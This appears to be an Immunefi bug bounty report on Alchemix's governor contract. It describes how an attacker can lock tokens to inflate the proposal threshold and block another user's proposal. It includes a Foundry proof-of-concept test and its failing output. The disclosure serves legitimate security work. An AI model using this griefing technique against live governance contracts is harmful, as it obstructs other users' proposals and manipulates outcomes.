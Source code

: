 
# "The proposer can be impeded from submitting a proposal by an attacker who inflates the proposalThreshold."

Submitted on May 4th 2024 at 13:33:54 UTC by @OxG0P1 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30685

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The `propose` function verifies the minimum votes required for a valid proposal by checking if the number of votes obtained by `_msgSender()` within the last block timestamp is greater than or equal to the current `proposalThreshold()` value. However, it is susceptible to exploitation by an attacker who can manipulate and inflate the `proposalThreshold()` value, thereby preventing any user from successfully proposing a valid proposal.


## Vulnerability Details
In the `propose` function, there exists a verification mechanism ensuring that the `msg.sender` possesses adequate quorum votes to initiate a proposal, denoted by the condition `getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold()`. Here, the `getVotes()` function retrieves the number of votes at `block.timestamp - 1`, while the `proposalThreshold()` is calculated as follows: `(token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR`. Notably, `getPastTotalSupply()` fetches the `totalSupply` at the specified `block.timestamp`.

Consider the following hypothetical scenario:
1. Bob intends to propose a proposal.
2. At timestamp `x`, Bob garners 110 votes.
3. At timestamp `x + 1`, the actual `proposalThreshold` is set at 100 votes.
4. However, Alice opposes Bob's proposal.
5. Alice manipulates the `proposalThreshold` by either locking or depositing assets into an already locked position, thereby ensuring that `getVotes(bob, x) < proposalThreshold()`. Consequently, Bob's proposal transaction fails, leading to a revert.

This scenario underscores a vulnerability where an adversary, in this case, Alice, exploits the system by artificially inflating the `proposalThreshold`, effectively obstructing legitimate proposals such as Bob's from succeeding.

## Impact Details
Opposing an user from proposing by manipulating the `totalSupply`

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/AlchemixGovernor.sol#L45-L47
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2Governor.sol#L309-L312



## Proof of Concept
`Test :`
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";
import "forge-std/console.sol";

contract AlchemixGovernorTest is BaseTest {
    uint256 tokenId1;
    uint256 tokenId2;
    uint256 tokenId3;

    function setUp() public {
        setupContracts(block.timestamp);

        
        tokenId1 = createVeAlcx(admin, TOKEN_100K / 4, MAXTIME, false); //Assign Admin with some voting power at block.timestamp

    

        
        hevm.warp(block.timestamp + 1); // Timestamp increment

        assertEq(governor.timelock(), address(timelockExecutor));
    }

    function craftTestProposal()
        internal
        view
        returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }




    function testPropose() public {
        address beef2 = address(6);
        address beef3 = address(7);
        address beef4 = address(8);
        address beef5 = address(9);
        address beef6 = address(10);
        address beef7 = address(11);
        createVeAlcx(beef, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef2, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef3, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef4, TOKEN_100K, MAXTIME, false); //Locking tokens so that the threshold increses

        ThreshHold = governor.proposalThreshold();
        console.log("TOTAL AT THIS2", ThreshHold);
        hevm.startPrank(admin);

        uint256 adminVotes = governor.getVotes(admin, block.timestamp - 1);
        uint256 pastVotes = veALCX.getPastVotes(admin, block.timestamp - 1);
        console.log("ADMIN VOTES", adminVotes);
        console.log("PAST VOTES", pastVotes);
        assertEq(adminVotes, pastVotes, "governor and veALCX calculated different votes");

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        governor.propose(t, v, c, d, MAINNET); //Admin proposing 

        hevm.stopPrank();
    }
}
```

`Result :`

```solidity
Ran 2 tests for src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
[PASS] testProposeFail() (gas: 1750584)
Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 103.69s (14.80s CPU time)

Ran 1 test suite in 105.70s (103.69s CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in src/test/AlchemixGovernor.t.sol:AlchemixGovernorTest
[FAIL. Reason: revert: Governor: veALCX power below proposal threshold] testPropose() (gas: 7860929)
```